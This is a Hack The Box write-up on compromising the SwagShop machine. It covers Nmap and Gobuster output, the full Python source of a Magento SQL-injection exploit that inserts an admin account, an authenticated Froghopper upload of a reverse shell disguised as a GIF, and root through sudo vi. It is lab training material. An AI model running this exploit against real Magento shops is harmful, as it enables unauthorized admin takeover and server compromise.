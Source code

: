 ```yaml
---
layout: PostSimple
date: 2019-12-11
title:     "Hack The Box - Swagshop"
tags: ['linux','easy','sudo','php']
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-swagshop/1.png)

We are going to pwn SwagShop from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/188](https://www.hackthebox.eu/home/machines/profile/188)


Like always begin with our Nmap Scan.

## Nmap Scan Results:

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home page
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 4.2 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Lets Begin with HTTP 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-swagshop/2.png)
It is Magento 

>Magento is an open-source e-commerce platform written in PHP. It is one of the most popular open e-commerce systems in the network. 

Run Gobuster on background

GObuster Results:
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.140
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/27 09:57:45 Starting gobuster
===============================================================
/app (Status: 301)
/errors (Status: 301)
/favicon.ico (Status: 200)
/includes (Status: 301)
/index.php (Status: 200)
/js (Status: 301)
/lib (Status: 301)
/media (Status: 301)
/pkginfo (Status: 301)
/server-status (Status: 403)
/shell (Status: 301)
/skin (Status: 301)
/var (Status: 301)
===============================================================
2019/12/27 10:00:03 Finished
===============================================================
```

So I searched for exploits available, and I choose randomly
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-swagshop/3.png)

>https://www.exploit-db.com/exploits/37977

This script will create admin account with username ``forme`` and password ``forme``
I changed the script's target url and executed.

```
 
import requests
import base64
import sys

target = "http://10.10.10.140/"

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/index.php/admin/Cms_Wysiwyg/directive/index/"

q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""


query = q.replace("\n", "").format(username="forme", password="forme")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
r = requests.post(target_url, 
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/admin with creds forme:forme".format(target)
else:
    print "DID NOT WORK"

```

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-swagshop/4.png)

It created an account , Now we can login with `` forme : forme ``

``http://10.10.10.140/index.php/admin``

and Im succesfully logged in.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-swagshop/5.png)

## Froghopper Attack

I searched for any ways to reverse shell once we get authenticated and I found this

>https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper

According to the exploit I need to first enable ``Symlink``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-swagshop/6.png)

Once its enabled 
We need to create Category so `` Catalog-> Manage Categories -> and add our malicious code with image ``.

I used pentest monkey reverse shell and added ``GIF89`` which makes the file as gif image.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-swagshop/7.png)


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-swagshop/8.png)
Upload it and save category.
Once its done move to `` Newsletter -> Newsletter Templates `` and inject the payload
Click Preview Template and start listener on your machine.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-swagshop/9.png)

We got the shell.

## Privilege Escalation:

As always I started with ``sudo -l``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-swagshop/10.png)

It looks like ``/usr/bin/vi`` can run any files in ``/var/www/html`` as sudo without root password

>https://gtfobins.github.io/gtfobins/vi/

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-swagshop/11.png)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-swagshop/12.png)

We goot Root!



